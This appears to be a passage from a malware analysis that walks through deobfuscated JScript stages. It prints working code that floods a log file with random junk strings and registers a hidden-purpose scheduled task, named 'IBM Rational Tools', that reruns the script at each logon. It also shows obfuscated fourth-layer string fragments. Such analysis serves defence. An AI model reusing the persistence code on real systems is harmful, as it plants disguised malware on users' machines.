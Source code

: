 ```js
random_number2 = Math["round"];
while(true) {
 generated_random_string += alpha_array[random_number2(random_number1()*25)];
 if (counter2==generated_random_number) {
 counter2=0;
 generated_random_number = generate_random_number_func(560)+10409;
 log_fullpath_handler["Write"](generated_random_string+";");
 generated_random_string="";
 }
 counter++;
 counter2++;
 if (counter==46992381) break;
}
```
The scheduled task is created as taskname "IBM Rational Tools", action to run "wscript <Short name of Market Share Analysis.js>" and triggers when user 
```js
scheduledtask_handler = Schedule_Service_func["NewTask"](0);
scheduledtask_handler["settings"]["StartWhenAvailable"] = true;
scheduledtask_handler["settings"]["Hidden"] = false;
scheduledtask_triggers_info = scheduledtask_handler["triggers"]["Create"](9);
scheduledtask_triggers_info["ID"] = "LogonTriggerId";
scheduledtask_triggers_info["UserId"] = WScript_Shell_func["ExpandEnvironmentStrings"]("%USERDOMAIN%\%USERNAME%");
scheduledtask_actions_info = scheduledtask_handler["Actions"]["Create"](0);
scheduledtask_actions_info["Path"] = "wscript";
scheduledtask_actions_info["Arguments"] = log_fullpath_handler_shortname;
scheduledtask_actions_info["WorkingDirectory"] = Directory;
Schedule_Service_func_getFolder["RegisterTaskDefinition"](IBM_Rational_Tools_str, scheduledtask_handler, 6, "" 
, "" , 3);
Schedule_Service_func_getFolder_GetTask = Schedule_Service_func_getFolder["GetTask"](IBM_Rational_Tools_str);
Schedule_Service_func_getFolder_GetTask["RunEx"](null, 2, 0, "");
```
## Fourth Layer

Decrypted_string appears in the same format at the first layer. With partial strings assigned to random named variables and a few function declaractions

Random named variables:
```js
...
zgcxeuq = 'E\'5\\tm,US\'7\\yx7+SG/\'[\\7b\\S\'h)Z+.]I\\U\'f(S \'M\\=e[';
hiysr = '$Wcv\'S\\$pc+;rr\')\\il)_pmn.txo';
weight3 = '+]0l\\\'\'\\}/|+\\/\'\'S\\;:p)psG(=p(\'(\\Wt(+\\t\'\'\\\\\'\'+';
bufye = [8081];
wayb = 'b\'\\\\\'\'O\\++t+\\\'\'\\:\'S\\:I\\S\'\']\\+et+\\\'\'\\r\'l\\E+e{V\'\\\\\')nc+3ou\\ \'RcQei.\'\\\\\'T';
sinceq = 'RUHDSQJb';
shello = '$\\\'\'\\e_++m.\\\'\'\\A\'n\\\\l\'+\\r\'\'+\\+o\\(\'l\\$\'on\'a\\|cm+k/\\\'\'\\n/+FI:\\N\'slZEpSMWtI';
type9 = '$RExTtreRsT\\U\'\'p\\)EI+[}z\'M\\G;[S.$p.nM]OOU';
producem = 'e0)i],)O:1\'j\\3::+-t:\'5\\]L)(GS]dn\'[\\\\n\'+Me+\'[\\\\o\'1';
shoulder3 = '\\\\h\'+\\\"\'\\M\'p\\E,\\E\'\"\\\\\'\'+\\+p\\+\'h\\\'\'\\tpTl\\.\'\'S\\+cy+\\p\'\'S\\fr\\s\'l\\E\'m+\'+\\\\x\'+\\/\'\'E\\UmL{\\o\'\'I\\+cf+\\.\'\'\\\\\'\'L\\+\"\\\\\'+\\3\'\'+\\s\"\\\\\'bI+Li|';
...
```

